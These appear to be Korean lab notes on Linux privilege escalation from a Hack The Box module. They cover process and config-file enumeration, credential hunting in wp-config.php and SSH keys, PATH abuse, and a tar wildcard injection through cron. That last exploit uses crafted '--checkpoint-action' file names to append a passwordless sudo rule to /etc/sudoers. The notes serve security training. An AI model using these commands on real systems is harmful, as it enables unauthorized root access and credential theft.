 ```ps aux | grep root```<br/>
> 참고 : [GTFObins](https://gtfobins.github.io/)

### Trace System Calls
```strace ping -c1 10.129.112.20```

### Configuration Files
```find / -type f \( -name *.conf -o -name *.config \) -exec ls -l {} \; 2>/dev/null```

### Scripts
```find / -type f -name "*.sh" 2>/dev/null | grep -v "src\|snap\|share"```

### Running Services by User
```ps aux | grep root```

<br/><br/>
# 자격증명 Hunting
```cat wp-config.php | grep 'DB_USER\|DB_PASSWORD'```<br/>
```find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null```

## SSH 키
```ls ~/.ssh```

<br/><br/>
# Path Abuse
```echo $PATH```<br/>
```pwd && conncheck```

- PATH에 현재 작업 디렉토리 추가
```
PATH=.:${PATH}
export PATH
echo $PATH
```

# Wildcard Abuse
| **Character** | **Significance**                                                              |
| ------------- | ----------------------------------------------------------------------------- |
| `*`           | 파일 이름의 아무리 많은 문자와도 일치할 수 있는 별표.                                               |
| `?`           | 단일 문자와 일치합니다.                                                                 |
| `[ ]`         | 대괄호는 문자를 묶으며 정의된 위치의 모든 문자와 일치할 수 있습니다.                                       |
| `~`           | 시작 부분의 틸드는 사용자 홈 디렉토리의 이름으로 확장되거나 다른 사용자 이름을 추가하여 해당 사용자의 홈 디렉토리를 참조할 수 있습니다. |
| `-`           | 괄호 안의 하이픈은 다양한 문자를 나타냅니다.                                                     |

## cron을 이용한 tar 명령 문제
```
mh dom mon dow command
*/01 * * * * cd /home/htb-student && tar -zcf /home/htb-student/backup.tar.gz *
```
```
echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
echo "" > "--checkpoint-action=exec=sh root.sh"
echo "" > --checkpoint=1
```
```
ls -la
